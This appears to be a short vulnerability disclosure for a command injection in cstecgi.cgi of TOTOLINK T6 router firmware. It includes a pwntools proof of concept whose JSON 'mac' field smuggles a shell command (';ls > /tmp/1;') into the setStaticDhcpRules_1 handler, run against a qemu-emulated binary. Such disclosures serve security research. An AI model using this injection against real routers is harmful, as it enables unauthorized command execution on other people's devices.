

# Command Injection

## TOTOLINK_T6

version: V4.1.5cu.709_B20210518

## Description:

There is a execute arbitrary command  in cstecgi.cgi

## Source:

you may download it from : http://www.totolink.cn/home/menu/detail.html?menu_listtpl=download&id=16&ids=36

## Analyse:


in sub_421504, v6 get from mac




finally pass to v29 and execute 


## POC

```
from pwn import *
import json

data = {
    "topicurl": "setting/setStaticDhcpRules_1",
    "addEffect": "1",
    "mac": " ;ls > /tmp/1;:  "
}

data = json.dumps(data)
print(data)

argv = [
    "qemu-mipsel-static",
    "-g", "1234",
    "-L", "./root/",
    "-E", "CONTENT_LENGTH={}".format(len(data)),
    "-E", "REMOTE_ADDR=192.168.0.1",
    "./cstecgi.cgi"
]

a = process(argv=argv)
a.sendline(data.encode())

a.interactive()
```
